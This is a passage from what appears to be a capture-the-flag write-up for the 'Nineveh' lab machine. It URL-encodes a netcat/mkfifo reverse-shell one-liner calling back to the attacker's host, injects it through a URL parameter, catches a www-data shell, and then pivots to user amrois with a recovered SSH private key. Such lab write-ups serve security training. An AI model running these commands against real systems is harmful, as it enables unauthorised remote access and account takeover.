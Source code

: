 Through the URL parameter, I can still open a reverse shell with the following command :

```perl
┌──(kali㉿kali)-[~]
└─$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 9000 >/tmp/f' | jq -sRr @uri
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.36%209000%20%3E%2Ftmp%2Ff%0A
```

Then I was able to open a reverse shell.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.43] 60822
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```



# Shell as `amrois`

### ssh connection

```bash
www-data@nineveh:/var/www/html$ ss -lntp
ss -lntp
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN     0      128          *:80                       *:*                  
LISTEN     0      128          *:22                       *:*                  
LISTEN     0      128          *:443                      *:*                  
LISTEN     0      128         :::22                      :::* 
```

ssh(22) port is open locally.

Using the previously found SSH private key for `amrois`, I can open a ssh shell.

```bash
www-data@nineveh:/tmp$ chmod 600 amrois.priv
chmod 600 amrois.priv
www-data@nineveh:/tmp$ ssh -i amrois.priv amrois@localhost
ssh -i amrois.priv amrois@localhost
Could not create directory '/var/www/.ssh'.
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
```
